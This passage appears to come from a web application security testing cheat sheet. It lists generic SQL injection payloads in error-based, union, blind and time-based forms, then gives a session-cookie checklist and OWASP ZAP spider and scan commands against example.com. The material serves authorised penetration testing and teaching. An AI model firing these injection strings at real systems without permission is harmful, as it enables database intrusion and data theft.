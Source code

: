 ### SQL Injection Testing
```sql
-- Error-based injection
' AND (SELECT COUNT(*) FROM information_schema.tables)>'0'--

-- Union injection
' UNION SELECT 1,2,3,4,database(),version(),7--

-- Blind injection
' AND (SELECT SUBSTRING(database(),1,1))='a'--
' AND (SELECT ASCII(SUBSTRING(database(),1,1)))>65--

-- Time-based injection
' AND IF(1=1,SLEEP(5),0)--
'; WAITFOR DELAY '00:00:05'--
```

## Session Management

### Session Testing Checklist
```bash
# Session ID properties
# - Length and randomness
# - Secure flag set
# - HttpOnly flag set
# - SameSite attribute

# Session lifecycle
# - Timeout configuration
# - Session invalidation on logout
# - Session fixation protection

# Testing commands
# Check cookie attributes
curl -I https://example.com/login

# Test session timeout
# Login and wait for timeout period
# Try accessing protected resources
```

## OWASP Tools

### OWASP ZAP (Zed Attack Proxy)
```bash
# Start ZAP in daemon mode
zap.sh -daemon -port 8080 -config api.disablekey=true

# API calls
# Spider a target
curl "http://localhost:8080/JSON/spider/action/scan/?url=https://example.com"

# Active scan
curl "http://localhost:8080/JSON/ascan/action/scan/?url=https://example.com"

# Generate report
curl "http://localhost:8080/OTHER/core/other/htmlreport/" > report.html
```
